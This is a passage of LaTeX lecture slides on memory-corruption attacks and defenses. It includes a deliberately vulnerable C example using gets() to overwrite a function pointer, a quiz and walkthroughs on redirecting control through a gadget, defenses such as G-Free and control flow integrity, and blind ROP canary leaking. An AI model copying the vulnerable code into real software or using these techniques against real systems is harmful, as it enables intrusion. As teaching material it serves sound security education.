\end{frame}
\end{soln}

\begin{frame}[fragile,label=useFPtrOverwrite2]{using function pointer overwrite (2)}
\begin{lstlisting}[language=C,style=script]
struct Example {
    char input[1000];
    void (*process_function)(Example *, long, char *);
};
void vulnerable(struct Example *e) {
    long index;
    char name[1000];
    gets(e->input); /* can overwrite process_function */
    scanf("%ld,%s", &index, &name[0]); /* expects <decimal number>,<string> */
    (e->process_function)(e /* rdi */, index /* rsi */, name /* rdx */);
}
\end{lstlisting}
\begin{itemize}
\item if we overwrite process\_function's address with the address of the gadget
    \texttt{push \%rdx; jmp *(\%rdi)}, then the beginning of the input should contain\ldots \\
    \begin{itemize}
    \item A. the shellcode to run
    \item B. an ROP chain to run
    \item C. the address of shellcode (or existing function) 
    \item D. the address of the ROP chain 
    \item E. the address of a RET instruction
    \end{itemize}
\end{itemize}
\end{frame}

\begin{soln}
\begin{frame}[fragile,label=useFPtrOverwrite1Explain]{explanation (one option)}
\begin{lstlisting}[language=C++,style=script]
gets(e->input); /* can overwrite process_function */
scanf("%ld,%s", &index, &name[0]); /* expects <decimal number>,<string> */
(e->process_function)(e /* rdi */, index /* rsi */, name /* rdx */);
\end{lstlisting}
\texttt{"FOOBARBAZ......."} + addr of \texttt{push \%rdx; jmp *(\%rdi)}
\begin{itemize}
\item arguments setup registers for gadget:
\begin{itemize}
    \item \%rdi is "FOOBARBAZ...." (copy in e)
    \item \%rsi (irrelevant) is uninitialized? (scanf failed)
    \item \%rdx (irrelevant) is uninitialized? (scanf failed)
\end{itemize}
\item push in gadget: top of stack becomes copy of uninit. value 
\item jmp in gadget
    \begin{itemize}
    \item interpret ``FOOBARBA'' as 8-byte address
    \item jump to that address
    \end{itemize}
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=useFPtrOverwrite2Explain]{explanation (unlikely alternative?)}
\begin{lstlisting}[language=C++,style=script]
gets(e->input); /* can overwrite process_function */
scanf("%ld,%s", &index, &name[0]); /* expects <decimal number>,<string> */
(e->process_function)(e /* rdi */, index /* rsi */, name /* rdx */);
\end{lstlisting}
\texttt{"1234567890,FOO......."} + addr of \texttt{push \%rdx; jmp *(\%rdi)}
\begin{itemize}
\item arguments setup registers for gadget:
\begin{itemize}
    \item \%rdi is address of string "12345678,FOO..." (copy in e)
    \item \%rsi is 12345678
    \item \%rdx is address of string "FOO..." (copy in name)
\end{itemize}
\item push in gadget: top of stack becomes address of "FOO..."
\item jmp in gadget
    \begin{itemize}
    \item interpret \textit{ASCII encoding of ``12345678''} (???) as 8-byte address
    \item jump to that address
    \end{itemize}
\end{itemize}
\end{frame}
\end{soln}


\subsection{just get rid of rets?}
\begin{frame}{can we get rid of gadgets? (1)}
    \begin{itemize}
    \item Onarlioglu et al, ``G-Free: Defeating Return-Oriented Programming through Gadget-Less Binaries'' (2010)
    \item two parts:
        \begin{itemize}
        \item get rid of unintended jmp, ret instructions
        \item add stack canary-like checks to jmp, ret instructions
        \end{itemize}
    \item hope: no \textit{useful} gadgets b/c of canary-like checks
        \begin{itemize}
        \item all gadgets should be useless without a secret value?
        \item still vulnerable to information leaks
        \end{itemize}
    \item overhead is not low:
        \begin{itemize}
        \item 20--30\% (!) space overhead
        \item 0--6\% time overhead
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{no unintended jmp/ret (1)}

\includegraphics[width=10cm]{../mitigate/gfree1}
\begin{itemize}
\item \texttt{addl \$0xc2, \%eax}: \texttt{05 \myemph<2>{c2 00 00} 00}
\item problem: \texttt{\myemph<2>{c2 00 00}}: variant of ret instruction
\item paper's proposed fix: change the constant
\end{itemize}
\end{frame}

\begin{frame}{no unintended jmp/ret (2)}

\includegraphics[width=10cm]{../mitigate/gfree2}
\end{frame}


\subsection{other defenses?}
\begin{frame}{other defenses?}
    \begin{itemize}
    \item mentioned shadow stacks
    \vspace{.5cm}
    \item some other ideas later:
    \item pointer authentication
        \begin{itemize}
        \item MACs in return/function/etc. addresses
        \end{itemize}
    \item control flow integrity
        \begin{itemize}
        \item verify that rets go to just after call
        \item verify that calls/jumps/etc. go to intended function/label
        \end{itemize}
    \end{itemize}
\end{frame}


\subsection{blind ROP}
\begin{frame}{blind ROP}
    \begin{itemize}
    \item so far: seems like we need executable to do ROP
    \item \ldots turns out, not really
    \vspace{.5cm}
    \item example attack scenario:
        \begin{itemize}
        \item stack canaries + ASLR + write XOR execute in use
        \item server that's automatically restarted on crash
        \item \ldots and as same randomization every time (fork, what Windows does)
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{blind canary leaking}
    \begin{itemize}
    \item let's say we have stack overflow:
        \begin{itemize}
        \item [buffer we can overwrite][stack canary][return address]
        \end{itemize}
    \item if we overwrite 0x43 into first byte of stack canary and it doesn't crash\ldots
    \item \ldots then first byte of stack canary was 0x43
    \item if we overwrite 0x43 into first byte + 0x58 in second and it doesn't crash\ldots
    \item \ldots then first+second byte of stack canary was 0x43 + 0x58
    \item can use this to read stack canary
        \begin{itemize}
        \item approx 128 attempts per byte = 1024 trials for 8-byte stack canary
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{blind return address leaking}
    \begin{itemize}
    \item can use same idea to leak return address (byte-by-byte)
    \item know other interesting addresses are nearby
    \vspace{.5cm}
    \item by guessing addresses find:
        \begin{itemize}
        \item `stop' gadget --- hang program
        \item `crash' gadget --- close connection prematurely
        \end{itemize}
    \end{itemize}
\end{frame}

 % FIXME: incomplete

% FIXME: blind ROP?
